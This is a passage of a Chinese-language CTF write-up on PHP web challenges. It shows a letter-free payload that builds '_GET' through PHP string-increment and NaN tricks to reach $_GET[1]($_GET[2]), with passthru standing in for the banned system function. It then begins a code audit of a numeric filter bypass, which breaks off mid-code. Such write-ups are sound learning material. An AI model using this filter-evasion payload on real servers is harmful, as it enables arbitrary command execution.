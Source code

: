 一个命令执行，过滤了大小写字母（C可以用）、一些特殊符号以及4-9之间的数字

不过自增构造命令的关键要素： $ \_ \[ \] ; + = 没有过滤掉

这里就尝试使用自增来进行命令执行

我们的目的是要构造system(order)这样的命令

但是又不能出现字母，那就只能引入外部的参数，所以要构造为

```
$_GET[1]($_GET[2]);
```

php代码如下：

```
<?php
$_=C;
$_++;
$_++;
$__=$_;//E
$_++;
$_++;
$___=$_;//G
$_=(C/C.C)[0];//N  这句话的意思，字母/字母=0/0就会被认为是无法被测量也就是NaN可以取得N字母
$_++;//o    
$_++;//p
$_++;//q
$_++;//r
$_++;//s
$_=_.$___.$__.++$_;//_GET
$$_[1]($$_[2]);//$_GET[1]($_GET[2]);

post的时候要url编码一次
这里有个坑，在phpinfo里也可以发现，system这个函数被ban了，不过可以替代他的passthru没有被ban
就可以利用passthru来进行命令执行
```

![](./images/image-10.png)

### 热身

签到体

看看代码审计

```
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
```